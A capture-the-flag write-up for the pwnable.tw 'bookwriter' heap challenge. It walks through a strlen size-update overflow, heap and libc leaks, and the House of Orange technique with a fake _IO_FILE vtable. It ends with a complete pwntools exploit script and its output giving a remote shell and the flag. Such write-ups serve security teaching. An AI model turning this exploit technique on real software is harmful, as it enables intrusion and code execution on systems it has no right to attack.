




bookwriter: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8c3e466870c649d07e84498bb143f1bb5916ae34, stripped


CANARY    : ENABLED
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : disabled
RELRO     : FULL


## Intro
When the program starts, the first thing it does is ask the user to input the author name.


Welcome to the BookWriter !
Author :


The name that the user provides is stored in the `char authorBuf[64]` buffer in the .BSS section.



In the main menu, the user can choose to add a page, view a page, edit a page, or view information about his current status.
 

----------------------
      BookWriter      
----------------------
 1. Add a page        
 2. View a page       
 3. Edit a page       
 4. Information       
 5. Exit              
----------------------


Let's go through each of these functions in more detail. 

### Add a page
When a user adds a page, they can specify the size of the page, which is subsequently used to malloc a chunk used to store the contents of the page.

There are no restrictions on the size, allowing us to allocate fast chunk, small chunks, or large chunks.

After the user specifies the contents of their desired page, the program stores a pointer to the heap chunk in an array of pointers in the .BSS section called `char *pagePtrs[8]`. Additionally, the size we specify for our page/chunk is stored in an array of sizes called `int sizeArr[8]`. 

Here is an example of a .BSS section with an author name "A"*0x40 and 2 100 byte pages created.

gdb-peda$ x/32xg 0x602060
0x602060:       0x4141414141414141      0x4141414141414141 <-- authorName[] 
0x602070:       0x4141414141414141      0x4141414141414141
0x602080:       0x4141414141414141      0x4141414141414141
0x602090:       0x4141414141414141      0x4141414141414141
0x6020a0:       0x0000000000603010      0x0000000000603080 <-- pagePtrs[] 
0x6020b0:       0x0000000000000000      0x0000000000000000
0x6020c0:       0x0000000000000000      0x0000000000000000
0x6020d0:       0x0000000000000000      0x0000000000000000
0x6020e0:       0x0000000000000064      0x0000000000000064 <-- sizeArr[] 
0x6020f0:       0x0000000000000000      0x0000000000000000
0x602100:       0x0000000000000000      0x0000000000000000
0x602110:       0x0000000000000000      0x0000000000000000


The page count in the the .BSS is also incremented after adding a page. A max of 8 pages can be added.

**We can actually get a heap leak by specifying an authorName that is exactly 64 bytes long and adding a page, since a pointer to the page's heap chunk will be stored in `pagePtrs[0]`, leaving no NULL byte separating the `authorName` and `pagePtrs[0]`**

All we have to do to get the leak is view information about our current status, which will also print out our author name followed by our heap pointer.

### View a page
When a user views a page, they specify the index of the page to be printed, and then the contents of the page are printed out. 
Pretty simple.

### Edit page
When a user wants to edit a page, the following flow occurs.

1. The index of the page to be edited is requested
1. The corresponding size stored in the specified index is retrieved
1. The size from step 2. is used to read bytes into the page's heap chunk
1. The size we fetched from step 2. is then updated to equal the the new strlen() of our page


if ( *(_QWORD *)&pagePtrs[8 * index] )
{
    printf("Content:");
    readWrapper(*(_QWORD *)&pagePtrs[8 * index], sizeArr[(unsigned __int64)index]);
    sizeArr[(unsigned __int64)index] = strlen(*(const char **)&pagePtrs[8 * index]);
    result = puts("Done !");
}
else
{
    result = puts("Not found !");
}

 
**This last step is flawed.**

**If we allocate chunks A and B right next to each other, and then edit chunk A to take up all of our requested space in the chunk, our strlen() will include the `size` field of chunk B causing our corresponding size in the sizeArr to be updated to an incorrect size!**

**Then, if we edit chunk A again, we will be able to overwrite the `size` field of chunk B with whatever we want!**

### View information
When we view information about our current status, the author name is printed out, as well as the current page count.

Additionally, the program asks if we'd like to change the author. `scanf()` is used to read in a response, and if it is `1`, then `getAuthor()` is called. Otherwise, nothing happens are we return back to `main()`.


  printf("Author : %s\n", 0x602060LL);
  printf("Page : %u\n", (unsigned int)pageCount);
  printf("Do you want to change the author ? (yes:1 / no:0) ");
  _isoc99_scanf(0x400F83LL, &choice);
  if ( choice == 1 )
    getAuthor();
  return *MK_FP(__FS__, 40LL) ^ cookie;

 
<span style="color:red">**One thing to note, is that everytime `scanf()` is called, it `malloc()`'s a decently size chunk on the heap that it uses to temporarily store data it reads in. This data is then copied over to the specified destination buffer.**</span> 

Keep this in mind, as it will come in handy later.

## House of Orange
As mentioned before, we can get a heap leak by inputting a 64 byte long author name, adding a page, and then viewing information about our current status.

Getting a libc leak, however, is a little trickier.

There are no calls to `free()` in this program, but we need to free a heap chunk in order to leak libc! This is problematic.

So, how do we leak libc? 

As it turns out, we actually CAN call `_int_free()` even though `free()` is not directly called anywhere in our program.

The technique to force this `_int_free()` without any `free()` calls in the binary is called **House of Orange**.

**In a House of Orange exploit, the top chunk's size field is overwritten with a small value, so that the next time a `malloc()` request is issued for a size greater than the top chunk's size, `sysmalloc()` will be called in order to handle these cases that require more memory from the system. And internally, `sysmalloc()` does eventually call `_int_free()` if certain conditions are met.**

From `malloc.c`:

sysmalloc handles malloc cases requiring more memory from the system.
On entry, it is assumed that av->top does not have enough
space to service request for nb bytes, thus requiring that av->top
be extended or replaced.


When the program requires more memory from the system to service an allocation request, it will call `sysmalloc()` to either

1. mmap() a new region for the chunk
1. extend the top chunk

We do not want to `mmap()` a new region.

We want to extend the top chunk in order to call `_int_free`, but before we can do this we need to pass several conditions.


if (av == NULL || ((unsigned long) (nb) >= (unsigned long) (mp_.mmap_threshold) && (mp_.n_mmaps < mp_.n_mmaps_max)))
{
    <try to mmap() a new region>
}

assert ((old_top == initial_top (av) && old_size == 0) ||
          ((unsigned long) (old_size) >= MINSIZE &&
           prev_inuse (old_top) &&
           ((unsigned long) old_end & (pagesize - 1)) == 0));

assert ((unsigned long) (old_size) < (unsigned long) (nb + MINSIZE));


if (old_size != 0){
    if (old_size >= MINSIZE)
    {
      _int_free (av, old_top, 1);
    }
}


The 5 conditions we need to meet in order to call `_int_free()` are as follows:

1. To avoid mmaping a new region, we need to set our requested size, `nb`, to be smaller than `mp_.mmap_threshold` 
1. The top chunk size, `old_size`, has to be greater than or equal to `MINSIZE`, which is `0x10` on 64-bit systems
1. The `prev_inuse` bit of the top chunk has to be flipped on
1. `old_top + old_size` must be aligned to a page, which is `0x1000` bytes on 64-bit systems
1. `old_size` must be smaller than `requested size + MINSIZE` 

In my exploit, I chose to overwrite the top chunk size, which was originally `0x20fe1`, with `0x10fe1`.


addPage(24,"A"*24)
editPage(0,"B"*24) # sizeArr[0]+=3
editPage(0,"B"*(24-0x8)+p64(0x0)+"\xe1\x0f\x01") # overwrite av(top)->size w/ 0x10fe1 to allow 3-byte malloc request sizes
# trigger sysmalloc()->_int_free()
addPage(69584,"BBBB")


The reason I chose a 3-byte size instead of a 2-byte size like `0xfe1`, is because later I needed to malloc large chunk sizes in order to get overlapping chunks to perform an unsorted bin attack. We will talk about this more later. 

Before we `malloc()` a large chunk, our top chunk and freelists look like this:

gdb-peda$ p main_arena.top
$102 = (mchunkptr) 0x100d020

gdb-peda$ p main_arena.bins
$103 = {0x7f22319e6b78 <main_arena+88>, 0x7f22319e6b78 <main_arena+88>, 0x7f22319e6b88 <main_arena+104>, 0x7f22319e6b88 <main_arena+104>, 


Notice that there is nothing in the freelists right now.

Now, check out what our top chunk and freelists look like after we `malloc()` the large chunk:

gdb-peda$ p main_arena.top
$104 = (mchunkptr) 0x103efe0

gdb-peda$ p main_arena.bins
$105 = {0x100d020, 0x100d020, 0x7f22319e6b88 <main_arena+104>, 0x7f22319e6b88 <main_arena+104>, 0x7f22319e6b98 <main_arena+120>, 


**Observe that the top chunk has been expanded, and that we were able to successfully place a heap chunk in the unsorted bin!**

So we were able to free a heap chunk without any `free()` calls in the binary. Amazing, huh?

After we add this large page, our .BSS section looks like the following.

gdb-peda$ x/32xg 0x602060
0x602060:       0x4141414141414141      0x4141414141414141
0x602070:       0x4141414141414141      0x4141414141414141
0x602080:       0x4141414141414141      0x4141414141414141
0x602090:       0x4141414141414141      0x5a41414141414141
0x6020a0:       0x000000000100d010      0x000000000102e010 <-- chunks A, B 
0x6020b0:       0x0000000000000000      0x0000000000000000
0x6020c0:       0x0000000000000000      0x0000000000000000
0x6020d0:       0x0000000000000000      0x0000000000000000
0x6020e0:       0x0000000000000010      0x0000000000010fd0 <-- sizes A, B
0x6020f0:       0x0000000000000000      0x0000000000000000
0x602100:       0x0000000000000000      0x0000000000000000
0x602110:       0x0000000000000000      0x0000000000000000


We can also use GDB to observe the state of our heap after this `free()` 


gdb-peda$ x/20xg 0x0100d000
0x100d000:      0x0000000000000000      0x0000000000000021 <-- chunk A
0x100d010:      0x4242424242424242      0x4242424242424242
0x100d020:      0x0000000000000000      0x0000000000010fc1 <-- free unsorted chunk
0x100d030:      0x00007f22319e6b78      0x00007f22319e6b78
0x100d040:      0x0000000000000000      0x0000000000000000
0x100d050:      0x0000000000000000      0x0000000000000000
0x100d060:      0x0000000000000000      0x0000000000000000
0x100d070:      0x0000000000000000      0x0000000000000000
0x100d080:      0x0000000000000000      0x0000000000000000
[...]
0x102e000:      0x0000000000000000      0x0000000000010fe1 <-- chunk B
0x102e010:      0x0000000042424242      0x0000000000000000
0x102e020:      0x0000000000000000      0x0000000000000000
0x102e030:      0x0000000000000000      0x0000000000000000
0x102e040:      0x0000000000000000      0x0000000000000000
0x102e050:      0x0000000000000000      0x0000000000000000


For visual readers, the heap now looks something like this:



Observe that there is a decent gap between where our free unsorted chunk starts, and where our chunk B starts.

Next, to leak libc, all we need to do is `malloc()` a 0-byte size page which will return `0x100d030`, and print its contents out.

## RIP Control
To get RIP control, we will perform an **unsorted bin attack** to overwrite `_IO_list_all` which points to a `_IO_FILE_plus` object.
We will overwrite `_IO_list_all` with an address inside `main_arena` 

The way an unsorted bin attack works is as follows. We overwrite an unsorted chunk's `BK` pointer, so that the next `malloc()` that removes this chunk from the unsorted list will write the libc address associated with an empty unsorted list, into `BK->fd`. 


/* remove from unsorted list */
unsorted_chunks (av)->bk = bck;
bck->fd = unsorted_chunks (av);


**Note that in order for this to be work, the next `malloc()` after the chunk has been placed into the unsorted bin, MUST be able to be serviced by the unsorted bin chunk, otherwise the unsorted chunk will be moved out of the unsorted bin, and into its appropriate small bin or large bin.**

Basically, chunks in the unsorted bin only get 1 chance to be used before they are removed from the unsorted bin! 

**Also observe that in order to do an unsorted bin attack, we need to be able to overwrite an unsorted bin chunk's `BK` field.**

**And that once we do this and malloc a chunk, we don't get to control the value that gets written to `BK->fd`! It will always be a libc address of an offset within the `main_arena` object!**

Unfortunately, our overflow isn't nice enough to be able to directly overwrite into the next chunk's `BK` pointer :(

**However, if we overlap an unsorted bin chunk over an allocated chunk whose contents we can control, then we'll be able to overwrite the unsorted chunk's `BK` pointer, permitting us to perform the aforementioned unsorted bin attack.** 

Specifically, in our exploit, we want to allocate an unsorted chunk over chunk B, since we already know we can control the contents of chunk B. 

In order to reach chunk B though, from where our current free chunk is, we have to allocate some fairly large chunks. And in fact, it looks our free unsorted chunk's size is smaller than the size we need to reach chunk B.

**So to be able to do this, we can re-use our technique from earlier to overwrite the size of the free unsorted chunk so that we are afforded enough bytes to allocate chunks out of in order to reach chunk B!**

In my exploit, I overwrite the size of the unsorted chunk with with `0x2ffff`.


0x100d110:      0x4343434343434343      0x000000000002ffff <-- corrupted size of free unsorted chunk
0x100d120:      0x00007f4ba8014b78      0x00007f4ba8014b78


At first I tried to overwrite it with `0xffffff`, but this caused an error on my next allocation, because the system checks to make sure that the address of the chunk we are removing from the unsorted bin + its size = a valid memory location.

Next, I leaked the heap base address by viewing my current status information, which actually took another `0x1011` chunks out of the unsorted heap chunk, since it calls `scanf()` which in turn, allocates a buffer on the heap to store the data it reads in.

```
PROTIP: scanf() always calls malloc() to write the scanned data into a buffer on the heap before copying the buffer over to the pointer specified in the 2nd arg
```

After this, I allocated a `0x1fed8` sized chunk to narrow the gap between our unsorted chunk and chunk B, and then finally allocated a `0x38` byte chunk to overlap the new unsorted chunk with chunk B.


gdb-peda$ p main_arena.bins[0]
$124 = (mchunkptr) 0x102e000 <-- unsorted chunk overlaps with chunk B!

gdb-peda$ x/32xg 0x602060
0x602060:       0x4141414141414141      0x4141414141414141
0x602070:       0x4141414141414141      0x4141414141414141
0x602080:       0x4141414141414141      0x4141414141414141
0x602090:       0x4141414141414141      0x5a41414141414141
0x6020a0:       0x000000000100d010      0x000000000102e010 <-- chunk B buf addr
0x6020b0:       0x000000000100d030      0x000000000100d050
0x6020c0:       0x000000000100e130      0x000000000102dfd0
0x6020d0:       0x0000000000000000      0x0000000000000000
0x6020e0:       0x0000000000000010      0x0000000000010fd0
0x6020f0:       0x0000000000000000      0x00000000000000cb
0x602100:       0x000000000001fe98      0x0000000000000038
0x602110:       0x0000000000000000      0x0000000000000000
 

The reason I split this into 2 allocations instead of just 1, was because I needed to overwrite the `size` field of chunk B for the next step of my attack. And sending `0x1fed8` "E"'s over the wire remotely would take too long and cause the program to time out and boot us.
So I opted to send just 1 "E" and `0x38` "F"'s. 

I lined it up nicely so that I would later be able to overwrite the `size` field of chunk B by editing chunk F:

gdb-peda$ x/32xg 0x000000000102e000
0x102e000:      0x4444444444444444      0x000000000000f109
0x102e010:      0x00007f4ba8014b78      0x00007f4ba8014b78


To summarize what we've done so far, our heap now visually looks something like this.



### _IO_list_all corruption
Now that we have overlapping chunks, we can corrupt the `BK` pointer of the chunk in the unsorted bin.

We corrupt the `BK` pointer with the address of `&_IO_list_all-0x10`, so that on the next `malloc()` call, we will overwrite `_IO_list_all`with a with an offset into `main_arena`. 

In our example, we will overwrite the `BK` pointer with `0x7f4ba8015510`

gdb-peda$ x/8xg 0x7f4ba8015520-0x10
0x7f4ba8015510: 0x0000000000000000      0x0000000000000000
0x7f4ba8015520 <_IO_list_all>:  0x00007f4ba8015540      0x0000000000000000


However, upon the next memory allocation, this will trigger a SIGABRT because the size of the chunk, which is at `&_IO_list_all-0x10`, which is `0x0`, will be smaller than the size of MINSIZE. 

This will start the `abort()` routine which we can exploit to get control of RIP by overwriting the `_IO_list_all` ptr with the address of a fake `_IO_file_plus` object.

HOWEVER, in our case, we don't get to control the value that gets written to `&_IO_list_all`! 

It is simply the `&unsorted_bin` address. 

Luckily, there is a neat trick we can use to get around this to still control RIP.

In the `_IO_FILE_plus` struct, there is something called a `_chain` ptr.


struct _IO_FILE_plus
{
  _IO_FILE file;
  const struct _IO_jump_t *vtable;
};

struct _IO_FILE {
  int _flags;           /* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags

  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;   /* Current read pointer */
  char* _IO_read_end;   /* End of get area. */
  char* _IO_read_base;  /* Start of putback+get area. */
  char* _IO_write_base; /* Start of put area. */
  char* _IO_write_ptr;  /* Current put pointer. */
  char* _IO_write_end;  /* End of put area. */
  char* _IO_buf_base;   /* Start of reserve area. */
  char* _IO_buf_end;    /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
#if 0
  int _blksize;
#else
  int _flags2;
#endif
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */

#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  /*  char* _save_gptr;  char* _save_egptr; */

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};


The `_chain` pointer is actually a pointer to the next `_IO_FILE_plus` object that is dereferenced during the `_IO_flush_all_lockp()` subroutine that is called as a result of the SIGABRT. 

In this subroutine, all the `_IO_FILE` file pointers are iterated through and flushed. In order to retrieve the next `fp` to be flushed, the `_chain` pointer is dereferenced. 


fp = (_IO_FILE *) _IO_list_all;
while (fp != NULL)
{
    <perform checks to fp and if they pass, call vtable!>
    fp = fp->_chain;
}


<span style="color:red">**If we can control the `_IO_FILE *_chain` pointer, we can still point it to a fake `_IO_FILE_plus` object whose contents we control, and get it call an fake vfunc in a fake vtable we've crafted!**</span>

Luckily for us, the `_IO_list_all` will be overwritten by `&unsorted_bin`, and the `_chain` ptr offset into `&unsorted_bin` address will point to the address of `small_bin[4]`.

**If we overwrite the size of the unsorted bin chunk with `0x61`, then it will be placed into `small_bin[4]` and the `_chain` ptr will point to it. Since we can also craft the contents within this unsorted bin chunk due to the overlapping chunks, when the `_chain` ptr is dereferenced, we will be able to control the execution flow to get it to look up an entry in a fake vtable we've crafted and call `one_shot`!**


gdb-peda$ p  *(struct _IO_FILE_plus *)0x7fb7029f1b78
$138 = {
  file = {
    _flags = 0x103efe0, 
    _IO_read_ptr = 0x102e000 "g?q\002?\177", 
    _IO_read_end = 0x102e000 "g?q\002?\177", 
    _IO_read_base = 0x7fb7029f2510 "", 
    _IO_write_base = 0x7fb7029f1b88 <main_arena+104> "", 
    _IO_write_ptr = 0x7fb7029f1b88 <main_arena+104> "", 
    _IO_write_end = 0x7fb7029f1b98 <main_arena+120> "\210\033\237\002?\177", 
    _IO_buf_base = 0x7fb7029f1b98 <main_arena+120> "\210\033\237\002?\177", 
    _IO_buf_end = 0x7fb7029f1ba8 <main_arena+136> "\230\033\237\002?\177", 
    _IO_save_base = 0x7fb7029f1ba8 <main_arena+136> "\230\033\237\002?\177", 
    _IO_backup_base = 0x7fb7029f1bb8 <main_arena+152> "?\033\237\002?\177", 
    _IO_save_end = 0x7fb7029f1bb8 <main_arena+152> "?\033\237\002?\177", 
    _markers = 0x102e000, 
    _chain = 0x102e000,  <---- ptr to heap chunk we control!
    _fileno = 0x29f1bd8, 
    _flags2 = 0x7fb7, 
    _old_offset = 0x7fb7029f1bd8, 
    _cur_column = 0x1be8, 
    _vtable_offset = 0x9f, 
    _shortbuf = "\002", 
    _lock = 0x7fb7029f1be8 <main_arena+200>, 
    _offset = 0x7fb7029f1bf8, 
    _codecvt = 0x7fb7029f1bf8 <main_arena+216>, 
    _wide_data = 0x7fb7029f1c08 <main_arena+232>, 
    _freeres_list = 0x7fb7029f1c08 <main_arena+232>, 
    _freeres_buf = 0x7fb7029f1c18 <main_arena+248>, 
    __pad5 = 0x7fb7029f1c18, 
    _mode = 0x29f1c28, 
    _unused2 = "?\177\000\000(\034\237\002?\177\000\000\070\034\237\002?\177\000"
  }, 
  vtable = 0x7fb7029f1c38 <main_arena+280>
}


There are just 2 checks that our fake `IO_file_plus` object needs to pass in order for us to be able to reach the vtable entry call. 

### 1st check

0x00007f4ba7ccd165 <+325>:   mov    eax,DWORD PTR [rbx+0xc0] //rbx = _IO_list_all ptr
0x00007f4ba7ccd16b <+331>:   test   eax,eax
0x00007f4ba7ccd16d <+333>:   jle    0x7f4ba7ccd280 <_IO_flush_all_lockp+608>

So we need to make `fake_file_obj+0xc0 = 0x0` to jump to `_IO_flush_all_lockp+0x608` where we encouter our 2nd check.

### 2nd check

0x00007f4ba7ccd280 <+608>:   mov    rax,QWORD PTR [rbx+0x20] //rbx = _IO_list_all ptr
0x00007f4ba7ccd284 <+612>:   cmp    QWORD PTR [rbx+0x28],rax
0x00007f4ba7ccd288 <+616>:   ja     0x7f4ba7ccd184 <_IO_flush_all_lockp+356>

And we also need to make `fake_file_obj+0x28 > fake_file_obj+0x20` to jump back up to `_IO_flush_all_lockp+0x356` where we win.

### Winning!

0x00007fe2f4fdf184 <+356>:   mov    rax,QWORD PTR [rbx+0xd8] //rbx = _IO_list_all ptr
0x00007fe2f4fdf18b <+363>:   mov    esi,0xffffffff
0x00007fe2f4fdf190 <+368>:   mov    rdi,rbx
0x00007fe2f4fdf193 <+371>:   call   QWORD PTR [rax+0x18] //rax = vtable

As we can see here, once both checks are passed, we call a function in our crafted vtable.

With the fake vtable and fake `_IO_file_object` crafted, our heap now looks like:

gdb-peda$ x/38xg 0x2417fe0
0x102dfe0:      0x4444444444444444      0x4444444444444444 <-- fake vtable
0x102dff0:      0x4444444444444444      0x4444444444444444
0x102e000:      0x00007f4ba7d41567      0x0000000000000061 <-- one_shot ; small chunk size
0x102e010:      0x4141414141414141      0x00007f4ba8015510 <-- fake _IO_file_plus obj
0x102e020:      0x0000000000000000      0x4242424242424242 <-- 2nd check
0x102e030:      0x4242424242424242      0x4242424242424242
0x102e040:      0x4242424242424242      0x4242424242424242
0x102e050:      0x4242424242424242      0x4242424242424242
0x102e060:      0x4242424242424242      0x4242424242424242
0x102e070:      0x4242424242424242      0x4242424242424242
0x102e080:      0x4242424242424242      0x4242424242424242
0x102e090:      0x4242424242424242      0x4242424242424242
0x102e0a0:      0x4242424242424242      0x4242424242424242
0x102e0b0:      0x4242424242424242      0x4242424242424242
0x102e0c0:      0x0000000000000000      0x4242424242424242 <-- 1st check
0x102e0d0:      0x4242424242424242      0x000000000102dfe8 <-- fake vptr
0x24180e0:      0x0000000000000000      0x0000000000000000


Putting everything together, the following was my solution to this challenge.

## Exploit

#!/usr/bin/env python

from pwn import *
import sys

def addPage(size, content):
    r.send("1")
    r.recvuntil("page :")
    r.send(str(size))
    r.recvuntil("Content :")
    r.send(content)

def viewPage(index):
    r.send("2")
    r.recvuntil("page :")
    r.send(str(index))
    return r.recvuntil("----------------------")

def editPage(index,content,getMenu=True):
    r.send("3")
    r.recvuntil("page :")
    r.send(str(index))
    r.recvuntil("Content:")
    r.send(content)
    r.recvuntil("choice :")

def getInfo(change,author=""):
    r.send("4")
    leak = r.recvuntil(":0")
    r.send(str(change))
    if change == 1:
        r.recvuntil("Author :")
        r.send(author)
    r.recvuntil("choice :")
    return leak

def exploit(r):
    r.recvuntil("Author :")
    author = "A"*0x3f+"Z"
    r.send(author)
    r.recvuntil("choice :") 
    
    # add page with 24 bytes
    addPage(24,"A"*24)
    editPage(0,"B"*24) # sizeArr[0]+=3 
    editPage(0,"B"*(24-0x8)+p64(0x0)+"\xe1\x0f\x01") # overwrite av(top)->size w/ 0x10fe1 to allow 3-byte malloc request sizes
    # trigger sysmalloc()->_int_free()
    addPage(69584,"BBBB")
    
    # allocate empty page to leak libc
    addPage(0,'') # chunk C
    
    addPage(200,"D")
    editPage(3,"D"*200)
    editPage(3,"D"*200+"\xff\xff\x02") # can't be too large, or it will think the next chunck is in an unmapped area 

    libc_base = u64(viewPage(2).split("Content :\n")[1][:6].ljust(8,'\0'))-0x3c42f8 
    IO_list_all = libc_base+0x3c4520
    one_shot = libc_base+0xf0567
    log.success("libc base found at: "+hex(libc_base))
    log.success("_IO_list_all found at: "+hex(IO_list_all))
    log.success('"magic" gadget found at: '+hex(one_shot))
    
    heap_base = u64(getInfo("0XXXXXX").split("Z")[1][:4].ljust(8,'\0'))-0x10
    if hex(heap_base).startswith('0xa'):
        log.failure("Didn't leak correct heap address. Try again...")
        sys.exit(1)
    log.success("heap base found at: "+hex(heap_base))
    
    addPage(0x1fed8-0x40,"E") # narrow the gap
    addPage(0x38,"F"*0x38)    # split into 2 allocations from scanf buffer to chunk B
    
    editPage(5, "F"*0x38) 
    editPage(5, "F"*(0x38-0x8)+p64(one_shot)+"\x61\x00") # set size = 0x61 to place chunk in chain ptr offset
    fake_vtable = heap_base+0x20fe8
    log.success("fake vtable crafted at: "+hex(fake_vtable))   
    
    # craft fake _IO_FILE object
    payload  = "A"*8
    payload += p64(IO_list_all-0x10)
    payload += p64(0x0)
    payload += "B"*8*19
    payload += p64(0x0)
    payload += "B"*8*2
    payload += p64(fake_vtable)
    
    editPage(1,payload) # unsorted bin attack: bck->fd = unsorted_chunks (av);
    log.success("fake _IO_file_plus object created!")    
    
    r.send("1") # malloc() to trigger IO_list_all overwrite + abort routine
    r.send("8")

    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['./bookwriter'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause() 
        exploit(r)



➜  bookwriter python solve.py  chall.pwnable.tw 10304 
[*] For remote: solve.py HOST PORT
[+] Opening connection to chall.pwnable.tw on port 10304: Done
[+] libc base found at: 0x7fb7c06de000
[+] _IO_list_all found at: 0x7fb7c0aa2520
[+] "magic" gadget found at: 0x7fb7c07ce567
[+] heap base found at: 0x13f2000
[+] fake vtable crafted at: 0x1412fe8
[+] fake _IO_file_plus object crafted!
[*] Switching to interactive mode
Size of page :$ id
uid=1000(bookwriter) gid=1000(bookwriter) groups=1000(bookwriter)
$ cat /home/bookwriter/flag
FLAG{Th3r3_4r3_S0m3_m4gic_in_t0p}

